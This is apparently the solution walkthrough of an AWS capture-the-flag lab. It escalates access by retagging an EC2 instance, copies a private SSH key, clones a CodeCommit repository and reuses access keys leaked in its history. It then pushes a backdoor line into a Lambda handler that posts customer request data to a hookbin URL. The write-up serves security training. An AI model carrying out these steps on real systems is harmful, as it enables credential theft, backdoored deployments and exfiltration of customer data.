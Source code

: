 

## Step 1

You are given credentials of an initial IAM user. 

Using the AWS CLI or AWS Console (e.g. using `aws-vault add initial` then `aws-vault login initial --no-session`), note that the IAM policy attached to your user allows it to establish a SSM session on all EC2 instances tagged with `Environment=sandbox`, and to manage tags of all EC2 instances tagged with `Environment=dev`.

Check the running EC2 instances. You notice one is tagged with `Environment=dev`, and you therefore can't SSM to it. Instead, overwrite the `Environment` tag with the value `sandbox`, then establish a SSM session to the instance:

```
aws ec2 create-tags --resources i-xxxx --tags Key=Environment,Value=sandbox
aws ssm start-session --target i-xxxx
```

## Step 2

On the instance, notice the private SSH key stored at `/home/ssm-user/.ssh/id_rsa`.

![Screen Shot 2022-06-21 at 6 29 59 PM](https://user-images.githubusercontent.com/4079939/174924027-54c04c15-a025-40f6-b0ba-be3d143be3d3.png)

- Copy the SSH key to your local machine (`~/.ssh/stolen_key`) and run `chmod 600 ~/.ssh/stolen_key` on it.

Next you can extract the corresponding public key fingerprint to notice it is linked to the CodeCommit credentials of the IAM user `cloner`, who has the permission `codecommit:GitPull` on a repository:

```
$ chmod 600 ~/.ssh/stolen_key
$ ssh-keygen -f ~/.ssh/stolen_key -l -E md5
2048 MD5:c8:86:28:03:a1:d5:af:77:2c:62:6a:73:59:69:c6:ba no comment (RSA)

$ aws iam list-ssh-public-keys --user-name cloner
{
  "SSHPublicKeys": [
    {
      "UserName": "cloner",
      "SSHPublicKeyId": "APKA254BBSGPK2B5K5YQ",
      "Status": "Active",
      "UploadDate": "2021-12-27T10:34:19+00:00"
    }
  ]
}
$ aws iam get-ssh-public-key --user-name cloner --ssh-public-key-id <SSHPublicKeyId found above> --encoding PEM --output text --query 'SSHPublicKey.Fingerprint'
c8:86:28:03:a1:d5:af:77:2c:62:6a:73:59:69:c6:ba
```

## Step 3

Set up your local environment to clone the repository using the [CodeCommit documentation](https://docs.aws.amazon.com/codecommit/latest/userguide/setting-up-ssh-unixes.html). In short:


- Find the CodeCommit user ID of `cloner` using `aws iam list-ssh-public-keys --user-name cloner --output text --query 'SSHPublicKeys[0].SSHPublicKeyId'`

- Use the following SSH configuration (in your `.ssh/config`):

```
Host git-codecommit.*.amazonaws.com
	IdentityFile ~/.ssh/stolen_key
	PubkeyAcceptedAlgorithms +ssh-rsa
        HostkeyAlgorithms +ssh-rsa
```

- Then, clone the repository using `git clone ssh://<SSH-KEY-ID>@git-codecommit.us-west-2.amazonaws.com/v1/repos/backend-api` (where `SSH-KEY-ID` should look like `APKA2...`)

## Step 4

The repository contains the backend code of the Lambda function exposed through the API gateway. Check the commit history to note a leaked access key:

```diff
commit 576bc9e2979cb780dacefa1cf758dabb29f6b223
Author: christophe <christophe>
Date:   Mon Dec 27 10:38:31 2021 +0000

    Use built-in AWS authentication instead of hardcoded keys

diff --git a/buildspec.yml b/buildspec.yml
index 7130465..4beaa61 100644
--- a/buildspec.yml
+++ b/buildspec.yml
@@ -1,22 +1,20 @@
-      version: 0.2
+version: 0.2
 phases:
   pre_build:
     commands:
-    - export AWS_ACCESS_KEY_ID=AKIA...
-    - export AWS_SECRET_ACCESS_KEY=hnOVW...dtX
     - echo "Authenticating to ECR"
```

## Step 5

These credentials you found belong to the user `developer`, who has pull and push access to this repository. Use this access to backdoor the application and steal the sensitive data that customers are sending to the API!

- For instance, add a piece of code to the checked out repo that sends the secret data to an attacker-controlled server. You can use something similar to what is shown below, if you do, you'll want to first generate your own hookbin link at https://hookbin.com/.

```diff
diff --git a/app.py b/app.py
index 10e7da5..e17a2ba 100644
--- a/app.py
+++ b/app.py
@@ -3,6 +3,7 @@ import json

 def handle(event):
   body = event.get('body')
+  import requests; requests.post("https://hookbin.com/kx...", data=body)
   if body is None:
     return 400, "missing body"
```



- Ensure the credentials you found above are set in your environment or a profile.

export AWS_ACCESS_KEY_ID=AKIA...
export AWS_SECRET_ACCESS_KEY=hnOVW...dtX

- You can then commit the file and push it with the following AWS command:

```
$ aws codecommit get-branch --repository-name backend-api  --branch-name master
{
    "branch": {
        "branchName": "master",
        "commitId": "e6a2c7...."
    }
}

$ aws codecommit put-file --repository-name backend-api --branch-name master --file-content fileb://./app.py --file-path app.py --parent-commit-id <Commit ID found above>
```


Note that the application is automatically being built by a CI/CD pipeline in CodePipeline. It may take a bit to deploy, give it some time and you should see the flag show up on hookbin if you used the method above (you may need to refresh the page though).
